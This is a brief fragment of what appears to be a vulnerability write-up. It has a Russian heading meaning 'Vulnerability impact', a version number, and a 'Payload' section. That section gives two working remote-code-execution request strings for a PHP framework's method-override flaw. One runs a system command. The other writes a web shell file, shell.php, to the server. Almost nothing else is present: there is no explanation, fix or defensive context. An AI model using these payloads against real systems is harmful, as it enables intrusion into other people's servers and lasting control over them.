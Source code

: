 <languages />

Воздействие уязвимости
----------------------

v4.8.54

Payload
-------

    s=dir&_method=__construct&method=*&filter[]=system

    s=echo "shell" >shell.php&filter[]=system&method=*&_method=__construct